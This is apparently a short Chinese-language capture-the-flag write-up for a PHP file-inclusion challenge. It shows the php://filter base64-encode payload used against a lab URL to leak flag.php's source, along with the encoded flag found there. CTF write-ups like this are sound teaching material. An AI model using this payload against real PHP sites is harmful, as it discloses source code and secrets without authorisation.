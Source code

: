 # 01.你能看到这个文件嘛？

1. 题目问能否“看到”这个文件，故从“看看”这个文件内容着手。

2. 构造 payload ：`file=php://filter/convert.base64-encode/resource=flag` ，即访问 URL ：`http://192.168.1.1:8083/ctf/8/index.php?file=php://filter/convert.base64-encode/resource=flag` ，可以得到 `flag.php` 经 *base64编码* 后的源代码。

3. 进行 *[base64解码](../../../misc/base64.md)* 后，可见源代码中有一句：

   ```php
   $flag = urldecode(base64_decode('MGNlZTdhMTZkMzUyMDM4NDdiMjJiNzAwODZmM2Q3OTA='));
   ```

4. 在php运行环境中执行上述代码即得答案。
